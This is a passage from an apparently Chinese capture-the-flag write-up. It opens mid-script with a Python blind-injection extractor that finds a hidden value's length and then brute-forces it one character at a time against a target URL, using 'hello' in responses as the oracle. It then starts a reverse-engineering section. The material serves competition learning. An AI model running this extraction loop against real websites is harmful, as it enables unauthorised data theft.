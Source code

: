```python
    length = 0
    while True:
        length = length + 1
        req = reqts.get(url + payload1.format(length, length), timeout=5)
        if req.text.find('hello') != -1:
            break
    return length

def get_res():
    result = ''
    length = get_len()
    print "The length of data is: {}".format(length)
    charset = '_}{abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ'
    for i in range(1, length + 1):
        for ch in charset:
            req = reqts.get(url + payload2.format(i, ch+result), timeout=5)
            if req.text.find('hello') != -1:
                result = ch + result
                print result
                break
    return result

if __name__ == "__main__":
    res = get_res()
    print "The result is: {}".format(res)
```

## 二.re

### `1.re1`

方法一：把文件下载下来用记事本打开。

![30](/assets/nwuctf/2/30.png)
